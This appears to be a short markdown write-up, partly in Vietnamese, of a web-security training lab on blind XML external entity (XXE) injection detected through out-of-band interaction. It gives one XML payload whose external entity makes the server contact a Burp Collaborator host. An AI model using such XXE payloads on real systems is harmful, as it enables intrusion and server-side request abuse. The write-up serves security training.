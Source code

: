 ![image-20250803133224388](./image/image-20250803133224388.png)



## Practice: 

### Lab1: Blind XXE with out-of-band interaction

Lab des: Khai thác lỗ hổng Blind XXE bằng cách khiến ứng dụng thực hiện truy vấn DNS/HTTP tới Burp Collaborator (out-of-band interaction). 

Steps: 

Payload:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://4ej83xfv9f0jx38waja4htf3puvljb70.oastify.com"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

![image-20250803134907442](./image/image-20250803134907442.png)
